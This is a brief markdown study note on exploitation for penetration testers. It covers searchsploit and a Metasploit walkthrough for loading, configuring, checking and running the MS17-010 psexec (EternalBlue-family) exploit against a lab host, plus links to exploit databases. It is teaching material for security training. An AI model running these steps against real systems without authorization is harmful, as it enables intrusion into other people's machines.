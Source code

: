 # exploitation

## public exploits

### searchsploit

A well-known tool for this purpose is searchsploit, which we can use to search for public vulnerabilities/exploits for any application.

- `sudo apt install exploitdb -y`
- `searchsploit openssh 7.2`

### metasploit primer

The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. MSF has many other features, like:

- Running reconnaissance scripts to enumerate remote hosts and compromised targets
- Verification scripts to test the existence of a vulnerability without actually compromising the target
- Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
- Many post-exploitation and pivoting tools

usage:

- to run metasploit, use `msfconsole`
- use `search exploit <exploit search term>` for details about a certain exploit (e.g. `search exploit eternalblue`)
- run the exploit with `use <exploitname>` (e.g. `use exploit/windows/smb/ms17_010_psexec`)
- then use `show options` to configure the exploit. use `set <option> <value>` (e.g. `set RHOST 10.10.10.40`, `set LHOST tun0`)
- before actually running the exploit, use `check` to check if the server is actually vulnerable
- finally run the exploit with `run`

### exploit databases

- https://www.exploit-db.com/
- https://www.rapid7.com/db/
- https://www.vulnerability-lab.com/
